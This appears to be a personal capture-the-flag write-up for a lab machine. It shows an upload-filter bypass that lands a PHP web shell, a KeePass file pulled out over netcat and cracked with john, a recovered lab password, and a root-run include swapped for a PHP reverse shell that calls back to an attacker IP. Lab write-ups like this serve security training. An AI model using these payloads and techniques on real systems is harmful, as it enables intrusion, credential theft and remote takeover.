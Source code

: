 Login page

![[Pasted image 20240711045329.png]]

Maybe we can get a username from samba file share port 139/445 SMB.

I find a image upload system that i may be able to modify:

![[Pasted image 20240711051515.png]]

The samba didn't seem like anything but i should have a better check.

I try a test upload:

![[Pasted image 20240711055302.png]]

we modify our rev.php shell and add the jpg extension which allows us to upload the file:

![[Pasted image 20240711061228.png]]

link:http://10.10.177.166/cloud/images/rev.jpg

The upload worked but didn't get us php execution so we try modifying the link:
http://10.10.177.166/cloud/images/rev.php .jpg

We try the file itself:

![[Pasted image 20240711062227.png]]

I didn't need to modify the file name, i could just modify it at the upload stage:
Working payload:http://10.10.177.166/cloud/images/phpbash.php#a.jpg

![[Pasted image 20240711064129.png]]

After rev shell..

Contents of /etc/passwd:
sysadmin:x:1000:1000:sysadmin:/home/sysadmin:/bin/bash

i find a keepass file

![[Pasted image 20240711073004.png]]

Transfer with netcat:

Me
```php
nc -lvp 4444 > dataset.kdbx
```

Target
```php
nc <Target> 4444 -w 3 < dataset.kdbx
```

- -w specify timeout

Now to crack the keepassfile

```php
keepass2john dataset.kdbx > keepass.hash
```

Then we crack it. We can either use **john**

```php
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash 
```

`741852963        (dataset)`

we open the database and retrive the password for sysadmin:

![[Pasted image 20240711075503.png]]

sysadmin:
Cl0udP4ss40p4city#8700

I pick up the first flag:

![[Pasted image 20240711075700.png]]

i retry lin-enum but provide a pass and request thorough test:

```php
./lin-enum.sh -t -s Cl0udP4ss40p4city#8700 
```

It says that it's insecure and should only be used for CTFs, so i'm glad i tired that on a CTF.

I'll take a manual look around after the test is complete and then run linpeas after which i'm more familiar with.

I fins a script which is a backup for root which allows us to replace a file that it calls for and insert a rev shell

```output
sysadmin@opacity:/home$ cd sysadmin/
sysadmin@opacity:~$ ls
local.txt  scripts
sysadmin@opacity:~$ cd scripts/
sysadmin@opacity:~/scripts$ ls
lib  script.php
sysadmin@opacity:~/scripts$ cd lib/
sysadmin@opacity:~/scripts/lib$ ls
application.php  biopax2bio2rdf.php  fileapi.php  rdfapi.php    utils.php
backup.inc.php   dataresource.php    owlapi.php   registry.php  xmlapi.php
bio2rdfapi.php   dataset.php         phplib.php   script.php
sysadmin@opacity:~/scripts/lib$ mv script.php backup.inc.php 
mv: replace 'backup.inc.php', overriding mode 0644 (rw-r--r--)? y
sysadmin@opacity:~/scripts/lib$ ls
application.php  biopax2bio2rdf.php  fileapi.php  rdfapi.php    xmlapi.php
backup.inc.php   dataresource.php    owlapi.php   registry.php
bio2rdfapi.php   dataset.php         phplib.php   utils.php
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php 
<?php

php -r '$sock=fsockopen("10.9.0.241",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

?>
```

Final payload:

```php
<?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

nc 

```php
nc -nlvp 80
```

This gave us root.
